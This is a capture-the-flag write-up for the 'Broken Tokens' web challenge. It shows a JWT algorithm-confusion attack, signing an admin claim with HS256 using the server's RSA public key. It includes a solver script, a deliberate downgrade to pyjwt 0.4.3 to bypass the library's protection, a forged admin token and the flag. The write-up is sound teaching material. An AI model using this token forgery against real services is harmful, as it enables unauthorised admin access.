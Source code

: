 # Broken Tokens [web]

- Score: 100
- Solves: 335

## Solution

The server souce code is given.

The authentication information is encoded by JWT and stored in the cookie, and it is decoded at GET requests to verify that the user is admin.

Since [the public key](publickey.pem) is given, we can secceed a typical JWT attack: changing the algorithm from RS256 to HS256.

- More info: [Hacking JSON Web Token (JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)

**solver.py**

```python
import jwt

public_key = open("publickey.pem", "r").read()

print(public_key)

print(jwt.encode({"auth": "admin"}, public_key, algorithm="HS256"))
```

Execute:

```fish
$ pip install pyjwt
$ python solve.py
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtnREuAwK7M/jWZdSVNfN
4m+kX0rqakI6KIR/qzT/Fv7hfC5vg9UJgEaAGOfexmoDMBYTLRSHnQ9EYjF6bkCh
w+NVQCqsvy9psZVnjUHQ6QfVUdyrUcsOuRoMMaEBYp+qCegDY5Vp65Wzk05qXfvK
LJK9apOo0pPgD7fdOhpqwzejxgWxUgYvMqkGQS2aCC51ePvC6edkStNxovoDFvXk
uG69/7jEqs2k2pk5mI66MR+2U46ub8hPUk7WA6zTGHhIMuxny+7ivxYIXCqEbZGV
YhOuubXfAPrVN2UpL4YBvtfmHZMmjp2j39PEqxXU70kTk96xq3WhnYm46HhciyIz
zQIDAQAB
-----END PUBLIC KEY-----

Traceback (most recent call last):
  File "solver.py", line 9, in <module>
    print(jwt.encode({"auth": "admin"}, public_key, algorithm="HS256"))
  File "/home/ark/.pyenv/versions/3.8.1/lib/python3.8/site-packages/jwt/api_jwt.py", line 64, in encode
    return super(PyJWT, self).encode(
  File "/home/ark/.pyenv/versions/3.8.1/lib/python3.8/site-packages/jwt/api_jws.py", line 113, in encode
    key = alg_obj.prepare_key(key)
  File "/home/ark/.pyenv/versions/3.8.1/lib/python3.8/site-packages/jwt/algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

However, the current version of pyjwt takes measures against this attack, so an error occurs.

- ref. https://security.stackexchange.com/a/187279

Okey, try again with version 0.4.3:

```fish
$ pip install pyjwt==0.4.3
$ python solver.py
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtnREuAwK7M/jWZdSVNfN
4m+kX0rqakI6KIR/qzT/Fv7hfC5vg9UJgEaAGOfexmoDMBYTLRSHnQ9EYjF6bkCh
w+NVQCqsvy9psZVnjUHQ6QfVUdyrUcsOuRoMMaEBYp+qCegDY5Vp65Wzk05qXfvK
LJK9apOo0pPgD7fdOhpqwzejxgWxUgYvMqkGQS2aCC51ePvC6edkStNxovoDFvXk
uG69/7jEqs2k2pk5mI66MR+2U46ub8hPUk7WA6zTGHhIMuxny+7ivxYIXCqEbZGV
YhOuubXfAPrVN2UpL4YBvtfmHZMmjp2j39PEqxXU70kTk96xq3WhnYm46HhciyIz
zQIDAQAB
-----END PUBLIC KEY-----

b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4'
```


Set `auth: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4` into the cookie and access again.

Displayed:

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

## Flag

flag{1n53cur3_tok3n5_5474212}
